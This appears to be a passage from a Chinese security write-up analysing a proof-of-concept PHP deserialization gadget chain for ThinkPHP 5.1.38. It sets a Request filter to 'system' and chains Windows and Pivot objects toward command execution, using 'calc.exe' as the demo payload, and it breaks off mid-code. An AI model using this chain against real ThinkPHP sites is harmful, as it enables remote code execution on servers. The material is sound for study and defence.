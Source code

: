 反序列链构造

先分析一下thinkphp5.1.38的poc


```php
<?php
namespace think;
abstract class Model{
    protected $append = [];
    private $data = [];
    function __construct(){
        $this->append = ["ethan"=>["calc.exe","calc"]];
        $this->data = ["ethan"=>new Request()];
    }
}
class Request
{
    protected $hook = [];
    protected $filter = "system";
    protected $config = [
        // 表单请求类型伪装变量
        'var_method'       => '_method',
        // 表单ajax伪装变量
        'var_ajax'         => '_ajax',
        // 表单pjax伪装变量
        'var_pjax'         => '_pjax',
        // PATHINFO变量名 用于兼容模式
        'var_pathinfo'     => 's',
        // 兼容PATH_INFO获取
        'pathinfo_fetch'   => ['ORIG_PATH_INFO', 'REDIRECT_PATH_INFO', 'REDIRECT_URL'],
        // 默认全局过滤方法 用逗号分隔多个
        'default_filter'   => '',
        // 域名根，如thinkphp.cn
        'url_domain_root'  => '',
        // HTTPS代理标识
        'https_agent_name' => '',
        // IP代理获取标识
        'http_agent_ip'    => 'HTTP_X_REAL_IP',
        // URL伪静态后缀
        'url_html_suffix'  => 'html',
    ];
    function __construct(){
        $this->filter = "system";
        $this->config = ["var_ajax"=>''];
        $this->hook = ["visible"=>[$this,"isAjax"]];
    }
}
namespace think\process\pipes;

use think\model\concern\Conversion;
use think\model\Pivot;
class Windows
{
    private $files = [];

    public function __construct()
    {
        $this->files=[new Pivot()];
    }
}
namespace think\model;

use think\Model;

```